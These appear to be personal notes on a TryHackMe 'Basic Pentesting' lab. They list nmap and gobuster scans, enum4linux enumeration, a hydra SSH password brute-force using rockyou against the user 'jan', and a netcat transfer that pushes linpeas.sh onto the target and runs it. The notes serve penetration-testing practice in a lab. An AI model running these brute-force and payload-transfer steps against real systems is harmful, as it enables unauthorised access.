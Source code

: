 # Overview
https://tryhackme.com/room/basicpentestingjt

```
export IP=10.10.191.59
```

## NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```

## Gobuster
```
export WORDLIST=/opt/directory-list-2.3-medium.txt
gobuster dir -u "http://$IP" -w $WORDLIST | tee gobuster.log
```

## enum4linux
```
/opt/enum4linx/enum4linx.pl -a $IP | tee enum4linux.log
```

## hyra
For finding passwords
```
hydra -l jan -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://$IP
```

# linpeas!
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```
